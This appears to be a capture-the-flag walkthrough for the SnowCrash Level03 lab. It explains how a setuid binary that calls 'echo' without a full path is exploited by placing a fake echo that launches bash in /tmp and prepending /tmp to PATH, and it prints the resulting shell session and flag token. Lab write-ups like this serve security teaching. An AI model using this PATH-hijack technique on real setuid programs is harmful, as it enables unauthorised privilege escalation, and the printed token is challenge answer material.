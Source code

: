 # Level03

We have an executable located in the home directory

	level03@SnowCrash:~$ ls -l
	total 12
	-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
	
	level03@SnowCrash:~$ file level03
	level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped

This is a setuid binary executed as "flag03".
Here is the source code :

	int main(int argc,char **argv,char **envp)
	
	{
	  __gid_t __rgid;
	  __uid_t __ruid;
	  int iVar1;
	  gid_t gid;
	  uid_t uid;
	  
	  __rgid = getegid();
	  __ruid = geteuid();
	  setresgid(__rgid,__rgid,__rgid);
	  setresuid(__ruid,__ruid,__ruid);
	  iVar1 = system("/usr/bin/env echo Exploit me");
	  return iVar1;
	}

We can see that the call to echo isn't done with the full path and instead relies on the $PATH environment variable. We can exploit this by creating our own echo binary and make it run a shell.
Since this binary is run as flag03, the shell will belong to flag03 and we will be able to run getflag.

	level03@SnowCrash:~$ echo "/bin/bash" > /tmp/echo; chmod +x /tmp/echo
	
	level03@SnowCrash:~$ export PATH=/tmp:$PATH
	
	level03@SnowCrash:~$ which echo
	/tmp/echo
	
	level03@SnowCrash:~$ ./level03 
	bash: /home/user/level03/.bashrc: Permission denied
	
	flag03@SnowCrash:~$ id
	uid=3003(flag03) gid=2003(level03) groups=3003(flag03),100(users),2003(level03)
	
	flag03@SnowCrash:~$ getflag
	Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
